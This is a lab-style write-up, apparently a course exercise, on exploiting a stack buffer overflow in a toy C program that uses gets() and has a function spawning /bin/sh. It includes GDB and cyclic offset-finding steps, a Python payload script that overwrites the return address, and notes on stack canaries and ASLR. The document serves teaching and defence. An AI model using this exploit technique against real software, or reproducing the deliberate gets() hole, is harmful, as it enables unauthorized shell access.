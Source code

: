 # Buffer Overflow Vulnerability Analysis

# Buffer Overflow Exploit Development

## 1. Introduction

This report describes the process of identifying a buffer overflow vulnerability in a simple C program and writing an exploit to gain control over the execution flow. The goal of the task was to demonstrate how buffer overflows can be used to overwrite the return address and invoke arbitrary functions, allowing unauthorized access to the system. The vulnerable program is analyzed and an exploit is written using the knowledge of stack memory layout and assembly-level analysis.

## 2. Vulnerable Program Analysis

### 2.1 Code Overview

The target program contains a buffer overflow vulnerability. The vulnerable function, `vulnerable()`, accepts user input using the unsafe `gets()` function, which does not check for buffer boundaries. This allows an attacker to overflow the buffer and overwrite the return address on the stack.

```c
#include <stdio.h>
#include <string.h>

void secret() {
    printf("Access granted! Exploit successful.\n");
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    printf("Enter your name: ");
    gets(buffer);  // vulnerable function
    printf("Hello, %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}


```bash
cyclic 200
```
## 3. Identifying the Vulnerability

### 3.1 Stack Behavior and Buffer Overflow

The program contains a buffer `char buffer[64]`, which is vulnerable to overflow because of the unsafe use of `gets()`. By providing more than 64 characters as input, we can overwrite adjacent memory regions, including the saved return address of the function `vulnerable()`.

### 3.2 Pattern Creation and Finding the Offset

To determine the exact location where the buffer overflow occurs (i.e., where the return address is stored), we use the `cyclic` command to generate a unique pattern:

This command generates a 200-character pattern that is used as input for the program. Upon crashing the program with a segmentation fault, we can inspect the saved register values (specifically EIP) in GDB to locate the point where the return address was overwritten.

In GDB, the command `info registers` helps us identify the overwritten EIP:

```bash
info registers
```

By using the `cyclic -l` command in GDB, we can determine the exact offset to the return address:

```bash
cyclic -l 0x61616174
```
![img1](img/img1.jpg)
The output shows that the offset to overwrite the return address is 76 bytes.

## 4. Writing the Exploit

### 4.1 Exploit Script

To exploit the vulnerability, we write a Python script that generates a payload. The payload consists of 76 "A"s to fill the buffer and then the address of the `secret()` function, which we obtained from the `objdump` command:

```bash
objdump -d vuln | grep secret
```

The address of the `secret()` function is `0x080484b6`. Using this address, we construct the payload in the exploit script:

```python
import os

offset = 76  # determined empirically
secret_addr = 0x080484b6  # address of the secret function

payload = b"A" * offset
payload += secret_addr.to_bytes(4, 'little')  # EIP

with open("exploit_input", "wb") as f:
    f.write(payload)
```

The payload is written to the file `exploit_input`, which is then passed to the vulnerable program:

```bash
./vuln < exploit_input
```

### 4.2 Exploit Execution

When the program is executed with the crafted input, it successfully redirects the execution flow to the `secret()` function, which prints:

```
Access granted! Exploit successful.
```
![img2](img/img2.jpg)
A shell is then spawned, giving the attacker control over the system.

## 5. Protecting the Program and Additional Analysis

### 5.1 Stack Protector and ASLR

After successfully exploiting the buffer overflow, we test the program with additional protections enabled:

**Stack Protector:** The stack protector (canary) is enabled to prevent stack buffer overflows.

```bash
gcc -m32 -fstack-protector vuln.c -o vuln_protected
```
![img3](img/img3.jpg)
**ASLR:** Address Space Layout Randomization (ASLR) is enabled to randomize memory addresses.

```bash
sudo sysctl -w kernel.randomize_va_space=2
```
![img4](img/img4.jpg)
With these protections in place, the program behaves differently, and the exploit is blocked. The stack protector causes a crash due to the invalid stack state, and ASLR randomizes the address of the `secret()` function, making it difficult to predict the address.

### 5.2 IDA Pro Analysis

We use IDA Pro to analyze the vulnerable binary. By disassembling the binary, we examine the stack layout, specifically how the return address is stored and how it can be overwritten during a buffer overflow. The function `vulnerable()` is analyzed to understand the flow of execution and identify how the return address can be hijacked.

## 6. Conclusion

In this exercise, we successfully exploited a buffer overflow vulnerability to gain control over the program's execution flow. By understanding the stack layout and using techniques such as pattern creation, GDB analysis, and writing an exploit, we demonstrated how an attacker can overwrite the return address and execute arbitrary functions. The exercise also illustrated the importance of stack protection mechanisms, such as stack canaries and ASLR, in preventing such attacks.

In the future, it's crucial to use safe functions (like `fgets()`) and enable protections like stack canaries, ASLR, and DEP to prevent buffer overflow vulnerabilities.
